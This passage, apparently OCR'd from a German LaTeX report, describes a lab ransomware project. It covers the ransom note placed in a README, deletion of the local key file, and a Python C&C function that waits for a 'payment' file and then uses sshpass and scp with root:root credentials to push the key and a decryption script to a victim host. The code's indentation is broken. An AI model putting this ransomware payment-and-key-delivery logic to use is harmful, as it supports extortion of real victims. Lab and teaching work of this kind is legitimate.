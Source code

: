 \documentclass[12pt]{article}
\begin{document}
Am Ende wird eine Datei "README" geöffnet und eine Nachricht geschrieben, die den Benutzer darüber informiert, dass das System verschlüsselt wurde und dass eine Zahlung erforderlich ist, um den Entschlüsselungsschlüssel zu erhalten. Schließlich wird die Datei "chkey.txt" gelöscht, um den Schlüssel zu entfernen.
\newpage
\subsection{Entschlüsselung}
\subsubsection{Bezahlung}
Für die Bezahlung wurde eine einfache Funktionalität implementiert. Der C\&C-Server schickt den Schlüssel für die Entschlüsselung erst, nachdem er eine Datei mit dem Namen 'payment' von seitens des Victim-Server erhalten hat. Dies wird mit der Funktion waiting\_for\_payment implementiert.
\begin{figure}[h]
 \caption{Python-Funktion die feststellt ob das Opfer bezahlt hat.}
 \begin{lstlisting}[language=python, style=code]
def wait_for_payment(file_path, timeout=60):
start_time = time.time()
while not os.path.exists(file_path):
	if time.time() - start_time >= timeout:
		print("Timeout: Datei wurde nicht gefunden.")
		return False
		time.sleep(1)  # Wartet 1 Sekunde, bevor erneut ueberprueft wird
		
		print("Datei gefunden:", file_path)
		print("Bezahlt")
		time.sleep(3)
		print("---------")
		print("Schicke Decryption + key")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no chkey.txt "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		print("key verschickt")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no decrypt.py "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		print("Decryption verschickt")
		
\end{lstlisting}

\end{figure}

Die Funktion prüft schlichtweg ob eine Datei namens 'payment' im Root Verzeichnis zu finden ist(vgl. Zeile 3). Wenn die Datei vorhanden ist, wird der vorher gespeicherte Schlüssel an den Victim-Server versendet(vgl. Zeile 14). 
\newpage
\end{document}
